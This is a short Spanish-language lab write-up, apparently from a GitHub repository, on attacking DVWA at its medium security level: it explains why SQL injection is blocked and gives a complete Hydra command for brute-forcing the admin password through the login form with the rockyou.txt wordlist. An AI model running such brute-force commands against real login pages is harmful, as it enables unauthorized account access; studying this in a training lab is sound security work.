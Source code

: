 # Explotación Nivel Medio DVWA

## 1. SQL Injection Bloqueada

La función `mysql_real_escape_string` implementada en este nivel previene inyecciones SQL directas al escapar caracteres especiales en la entrada del usuario. Los payloads del nivel bajo ya no son efectivos.

## 2. Fuerza Bruta con Hydra

Aunque la inyección SQL directa está bloqueada, aún podemos intentar un ataque de fuerza bruta para adivinar la contraseña.

**Comando:**
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP_SERVIDOR> http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=<TU_SESION>;security=medium:F=Username and/or password incorrect."
``

Nota: Reemplaza <IP_SERVIDOR> con la dirección IP de tu servidor DVWA y <TU_SESION> con el valor actual de tu cookie PHPSESSID.

Resultado: Hydra intentará cada contraseña en la lista rockyou.txt para el usuario "admin". Eventualmente, si la contraseña se encuentra en la lista, Hydra la revelará. El proceso puede ser más lento en comparación con el nivel bajo, ya que cada intento requiere una petición HTTP completa.

<img src="../../BruteForceMedium01">
